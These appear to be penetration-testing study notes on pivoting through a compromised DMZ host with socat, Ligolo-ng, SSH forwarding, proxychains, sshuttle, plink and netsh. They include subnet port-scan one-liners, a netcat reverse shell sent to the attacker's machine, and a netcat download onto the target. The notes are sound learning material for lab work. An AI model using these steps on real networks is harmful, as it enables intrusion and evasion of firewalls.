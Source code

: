 ```yaml
---
layout: blank
pagetitle: Port Redirection and SSH Tunneling
---
```


### Port Forwarding

**Upgrading terminal**
- Might need to run `python3 -c 'import pty; pty.spawn("/bin/sh")'` to upgrade terminal

**Port Redirection and Tunneling examples**
- Port redirection (a type of forwarding): take traffic from one socket and passing it to another
- Tunneling: Encapsulating one type of data inside another (like HTTP inside SSH)
- **How do you know when to port forward?**
	- Once inside a box, use `ip addr`, `ipconfig`, and `ip route` to find connected subnets
	- Then, use scripts like `for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done` to find open ports (a basic nmap for linux)
		- Use ``1..254|%{$ip="172.16.50.$_";$p=445;$t=New-Object Net.Sockets.TcpClient;$r=$t.BeginConnect($ip,$p,$null,$null);if($r.AsyncWaitHandle.WaitOne(1000)){try{$t.EndConnect($r);Write-Host "$ip`:$p open"}catch{}}else{Write-Host "$ip`:$p closed"};$t.Close()}`` for powershell

**Port forwarding with Linux**
- Useful in situations where we need to access an internal server through a DMZ machine we own
- One way of doing this is starting a verbose (-ddd) Socat process listening on some port and forwarding traffic to the internal IP
	- `socat -ddd TCP-LISTEN:{External_Port},fork TCP:{Internal_IP}:{Internal Port}`
- Can also use *rinetd*, netcat + FIFO named pipe, or *iptables* if we have root

### Ligolo-ng
- https://github.com/nicocha30/ligolo-ng/releases/tag/v0.6.2
- Download a proxy file for kali and an agent file for the DMZ machine
- Setup on kali (create tun interface):
	- `sudo ip tuntap add user kali mode tun ligolo`
	- `sudo ip link set ligolo up`
	- `./kali-proxy -selfcert`
		- This will return a port
- (Windows) agent:
	- `ligolo-agent.exe -connect {kali_IP}:{kali_port} -ignore-cert`
	- This program won't exit
- Join a session: `session`, then specify session number
- Adding a pivot (After grabbing network information from client and session running):
	- On kali: `sudo ip route add {ipconfig_IP}/{mask} dev ligolo`
		- Make sure the final IP portion, in front of the mask, is 0 (otherwise `ip` will get mad)
	- Within DMZ session on ligolo: `start`
- Now, we should literally have access to internal machines as though Kali was in the network
- Reverse shell from internal machine -> DMZ -> kali:
	-  `listener_add --addr 0.0.0.0:1338 --to 127.0.0.1:{kali_listening_port}`
		- This created a listener on the DMZ machine on port 1338 to forward all traffic to kali on port 4444
	- Then, we send reverse shells to port 1338 on the DMZ machine, rather than our kali IP
- File upload to internal machine:
	- `python -m http.server` on kali
	- `listener_add --addr 0.0.0.0:1339 --to 127.0.0.1:8000`
		- Forwarding all traffic that reaches DMZ on 1339 to kali on 8000
	- Now, we `iwr/wget {DMZ_IP}:1339/{file}`
	
### SSH Tunneling
- Can also be referred to as "SSH Port Forwarding"
- SSH was designed to securely transmit traffic, so it was used initially for a lot of tunneling

**SSH Local Port Forwarding**
- Done with SSH's `-L` option
	- Used to forward incoming traffic on the current machine from the machine we SSH INTO to another machine
	- `ssh -N -L 0.0.0.0:{current_machine_inbound_port}:{2nd_hop_forwarding_IP}:{forwarding_port} {username}@{intermediary_machine_IP}`
		- `0.0.0.0` just means listening on all interfaces
		- `-N` just means don't show output, so we only see forwarding-related stuff
	- Basically, we are in the network-facing machine. We want to forward traffic from one-hop to two-hops away to an arbitrary port, so we ssh from the pwned box into the one-hop box with the port-forwarding info. The info states that our port (in the example, 4455) will accept incoming connections (e.g. outside the network), send those along ssh, and then ssh on the one-hop machine will forward the traffic to the two-hop machine's port specific in the ssh-command. jeez

**SSH Dynamic Port Forwarding**
- Useful when we want to do more than a 1:1 port forward
	- This basically allows us to shift our commands one machine down
- OpenSSH uses a SOCKS proxy server port to listen, enabling this technique
- Uses the `-D` option
- Usage: `ssh -N -D 0.0.0.0:{inbound_port} {username}@{IP}`
	- This opens 9999 on the internet-facing machine that we control and tells it to accept and forward SOCKS traffic, as shown below
- Then, use *ProxyChains* to communicate over SOCKS
	- Edit `/etc/proxychains4.conf`, putting "socks5 {IP} {port} at the end"
		- This IP and port are the entrance to the internal network that we control
	- `proxychains {command} -L //{IP}/ -U {username} --password={password}`
		- `{command}` could be anything, like `smbclient` or `nmap`
		- The SOCKS traffic would be forwarded to the IP from the machine ssh'd into

**SSH Remote Port Forwarding**
- It's basically using an SSH tunnel's egress traffic to send commands through the client
- Useful when firewalls are getting in the way (e.g. can't ssh in/open new ports)
	- Thus, we set up an SSH server on OUR machine and bind the listening port to the loopback interface
		- Will need to run `sudo systemctl start ssh`
		- This does mean that we're giving the compromised machine our LITERAL credentials, so it might be good to create a new user lmfao
	- This means that packets sent are pushed through the SSH tunnel back to the compromised DMZ machine
- Uses the `-R` option, run from compromised DMZ machine
- Example: listening on 2345 on Kali and forwarding traffic to the 1-hop internal machine
	- `ssh -N -R localhost:{2345}:{internal_1hop_IP}:{internal_1hop_port} username@{kali_IP}`
- Traffic can then be sent to the machine by sending traffic to that port on localhost
	- Example: `psql -h localhost -p {2345} -U {username}`

**SSH Remote Dynamic Port Forwarding**
- Remote, and forwards traffic based on where they're addressed
- Example running on 9998:
	- `ssh -N -R 9998 kali@{kali_IP}`
	- Then, in `/etc/proxychains4.conf`:
		- `socks5 127.0.0.1 9998`
	- `proxychains {command with internal 1-hop IP as target}`
		- `proxychains nmap {internal_IP}`

**Using sshuttle**
- Basically turns SSH into a VPN
- First, port forward in traffic on the pwned machine on a certain port
	- For example, use Socat to allow inbound traffic on 2222, forward it to new machine (whose credentials we know) on port 22, since we're ssh'ing into that machine
- Then, `sshuttle -r {user}@{pwned_target_IP}:{pwned_target_port} {subnet1} {subnet2}`
	- The subnets are ones that we require access to from the pwned machine
- Then, we can just make requests to hosts in the subnet
	- For example, `nmap {private_IP}`

### Port Forwarding with Windows Tools

**Using SSH on Windows**
- Pretty much the same, as it's OpenSSH - comes bundled with Windows after 2018
- Remote Dynamic port forward:
	- Same as linux `ssh -N -R {kali_port} kali@{kali_IP}`
	- Modify kali `/etc/proxychains4.conf` to have `socks5 127.0.0.1 {kali_ssh_port}`
	- Then, same as before, use `proxychains` with commands and internal IPs passed

**Plink**
- OpenSSH might not be on Windows, so Plink might be used instead
- This is used for bypassing a firewall INTO the DMZ machine (going from shell to RDP even with RDP port blocked)
- Need netcat on the target, located in /windows-resources/binaries/nc.exe
	- Grab it with `powershell wget -uri {uri}/nc.exe -OutFile {desired_outfile.exe}`
	- Run a shell with `nc.exe -e cmd.exe {kali_IP} {port}`
- Download plink.exe using same command as above ^^
- `plink.exe -ssh -l kali -pw {pass} -R 127.0.0.1:{kali_port}:127.0.0.1:{port_we_want_to_open_on_DMZ} {kali_ip}`
	- This is basically just ssh'ing into kali to open up a port on the DMZ machine
- Then, for example, `xfreerdp /u:{username} /p:{password} /v:127.0.0.1:{kali_port}`, as the box has SSH'd into kali and is running on kali port, so we can rdp into that

**Netsh**
- Built-in to the firewall, thus should require Administrator
- Assume RDP is open, and we want to go to 1hop internal machine via SSH
- 1st, rdp using `xfreerdp`
- Then, `netsh interface portproxy add v4tov4 listenport={open_port} listenaddress={current_machine_IP_from_kali} connectport={port_of_1hop_machine} connectaddress={1hop_internal_IP}`
	- Need to open {open_port} on the firewall - `netsh advfirewall firewall`
		- `netsh advfirewall firewall add rule name="{any_name}" protocol=TCP dir=in localip={kali_ip} localport={open_port} action=allow`
		- To delete the rule, `netsh advfirewall firewall delete rule "{rule_name}"`
- To delete the port forward, run `netsh interface portproxy del v4tov listenport={open_port} listenaddress={kali_IP}`
- Can verify what is running with `netstat -anp TCP` or `netsh interface portproxy show all`